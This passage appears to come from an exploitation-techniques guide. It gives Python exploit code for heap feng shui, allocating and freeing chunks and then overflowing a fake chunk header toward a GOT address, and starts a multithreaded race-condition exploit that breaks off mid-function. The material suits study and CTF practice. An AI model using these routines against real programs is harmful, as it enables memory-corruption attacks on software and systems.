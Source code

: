 
## Heap Feng Shui

**Technique**: Controlled heap layout manipulation for reliable exploitation

### Concept
Heap Feng Shui involves carefully arranging heap chunks to create predictable conditions for exploitation.

### Implementation
```python
def heap_feng_shui_technique(self):
    # Phase 1: Prepare heap layout
    chunk_sizes = [0x20, 0x30, 0x40, 0x50, 0x60]
    
    for i, size in enumerate(chunk_sizes):
        payload = f"alloc {size}".encode()
        self.target.sendline(payload)
    
    # Phase 2: Create controlled fragmentation
    for i in range(0, len(chunk_sizes), 2):
        payload = f"free {i}".encode()
        self.target.sendline(payload)
    
    # Phase 3: Exploit fragmentation
    exploit_size = 0x38
    exploit_payload = b'A' * 0x18
    exploit_payload += p64(0x41)      # Fake chunk size
    exploit_payload += p64(0x602060)  # Target address (GOT entry)
    
    self.target.sendline(f"alloc {exploit_size}".encode())
    self.target.sendline(exploit_payload)
    
    return True
```

### Process
1. **Layout Preparation** - Allocate chunks with specific sizes
2. **Controlled Fragmentation** - Free alternating chunks to create gaps
3. **Exploitation** - Allocate in specific gap and overflow to adjacent chunk

---

## Advanced Race Conditions

**Technique**: Precise timing attacks using multiple threads

### Implementation
```python
def advanced_race_condition_exploit(self, num_threads=50):
    class RaceExploiter:
        def __init__(self, binary_path):
            self.binary_path = binary_path
            self.success = False
            self.result = None
            self.lock = threading.Lock()
        
        def worker_thread(self, thread_id):
            try:
                p = process(self.binary_path)
                
                # Critical timing specific
                time.sleep(0.0001 * thread_id)
```